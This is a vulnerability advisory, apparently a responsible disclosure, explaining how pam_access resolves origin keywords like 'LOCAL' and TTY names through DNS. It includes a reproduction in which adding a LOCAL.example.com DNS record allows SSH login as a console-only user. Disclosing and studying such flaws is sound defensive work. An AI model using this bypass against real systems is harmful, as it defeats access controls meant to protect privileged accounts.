 
# PAM pam_access Origin Restriction Bypass

## Introduction

Linux's PAM (Pluggable Authentication Modules) pam_access module can be
configured in /etc/security/access.conf to allow logins for certain users
only when coming from certain origins, such as a hostname, IP address, or
locally.  pam_access treats non-hostname origins such a TTY name or `LOCAL`
as a hostname to be looked up under certain conditions.

If someone can control the results of these DNS lookups, then such a person
can bypass access this control configuration.

## Example

The user `localadmin` should only be able to log in locally with the
following pam_access configuration at /etc/security/access.conf (shared by
`sshd`, `login` and more):

```
+:localadmin:LOCAL
-:localadmin:ALL
```

Login attempts as `localadmin` succeed on the console and fail via SSH as
expected, but pam_access is trying to look up `LOCAL` with DNS:

syslog:
```
Jan 10 23:54:47 server sshd[2051]: pam_access(sshd:account): cannot resolve hostname "LOCAL"
Jan 10 23:54:47 server sshd[2051]: pam_access(sshd:account): access denied for user `localadmin' from `10.0.0.33'
```

Packet capture, meanwhile:

```
admin@server:~$  tcpdump -i eth0 -n port 53
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on wlp3s0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
23:53:37.230335 IP 10.0.0.44.35353 > 10.0.0.2.53: 8066+ A? LOCAL.example.com. (35)
23:53:37.230927 IP 10.0.0.44.51002 > 10.0.0.2.53: 39403+ AAAA? LOCAL.example.com. (35)
```

To try a practical example, first logins fail as localadmin via SSH when
LOCAL.example.com can't be resolved:

```
user@clienthost:~$ dig +short LOCAL.example.com
user@clienthost:~$ ssh localadmin@10.0.0.44
localadmin@10.0.0.44's password:
Connection closed by 10.0.0.44 port 22
```

Trying again after adding LOCAL.example.com to DNS yields a successful login:

```
user@clienthost:~$ dig +short LOCAL.example.com
10.0.0.33
user@clienthost:~$ ssh localadmin@10.0.0.44
localadmin@10.0.0.44's password:
localadmin@server:~$ 
```

The same is true of TTY names in the origin field of pam_access's config file.

## History

- 2023-12-15: Reported to and confirmed by Ubuntu: https://bugs.launchpad.net/ubuntu/+source/pam/+bug/2046526

- 2024-01-11: Reported to the Linux-PAM project: https://github.com/linux-pam/linux-pam/issues/711
